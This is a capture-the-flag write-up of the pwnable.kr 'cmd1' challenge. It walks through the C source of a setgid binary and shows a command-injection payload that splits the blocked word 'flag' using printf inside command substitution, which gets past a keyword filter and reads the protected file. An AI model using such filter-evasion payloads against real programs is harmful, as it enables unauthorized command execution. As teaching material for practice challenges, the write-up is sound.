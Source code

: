 # Challenge #12 - cmd1

## Challenge Description:

> Mommy! what is PATH environment in Linux?
>
> ```bash
> ssh cmd1@pwnable.kr -p2222 (pw:guest)
> ```

---

## Pre-Analysis

Okay lets see what we have to work with!

```bash
cmd1@ubuntu:~$ ls -l
total 24
-r-xr-sr-x 1 root cmd1_pwn 16056 Mar 21 09:49 cmd1
-rw-r--r-- 1 root root       353 Mar 21 09:47 cmd1.c
-r--r----- 1 root cmd1_pwn    46 Apr  1 06:06 flag
```

We have an executable, its corresponding C file and the flag for which we don't have read permissions... Not a lot to work with from this perspective, let's move on to static analysis!

## Static Analysis

Let's examine `cmd1.c`:

```C
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        setregid(getegid(), getegid());
        system( argv[1] );
        return 0;
}
```

OK we have 2 functions, `main` and `filter`.

The program first changes the $PATH environment variable which includes paths to executables such as `cat`. This doesn't matter to us that much, simply use `/bin/cat` instead for example.

Then the program runs the `filter` function, if it returns 0 it runs the command in `argv[1]` and if not it exits.

So essentially:
1. Change `$PATH` environment variable
2. Run `filter` function
3. If nonzero is returned, exit program
4. Else, call the command specified in the command-line argument by the user

The `filter` function:
- Returns nonzero if any of these conditions is true:
  - `cmd` contains the string `"flag"`
  - `cmd` contains the string `"sh"`
  - `cmd` contains the string `"tmp"`
- Else it returns zero

## Plan

OK so we know how the program works, now what remains is how we can make it run `/bin/cat flag` without the `filter` returning a nonzero value!

There are multiple ways to solve this one but the simplest one in my opinion is to simply "split" the `"flag"` string into a couple parts. In order to do that we can pass a BASH command as `argv[1]` like so:

```bash
./program "$(printf "/bin/cat cy%s" "ber")"
```

What the program sees is just the string we put in which does not contain `"cyber"` but when the program then runs `system()` on our argument it performs command substitution and effectively runs `/bin/cat cyber` as we want it to!

## Exploit

Right! Let's run this exploit on the target program:

```bash
cmd1@ubuntu:~$ ./cmd1 '$(printf "/bin/cat %s%s" "fl" "ag")'
<cmd1_flag_here>
cmd1@ubuntu:~$
```

### And we are successful!
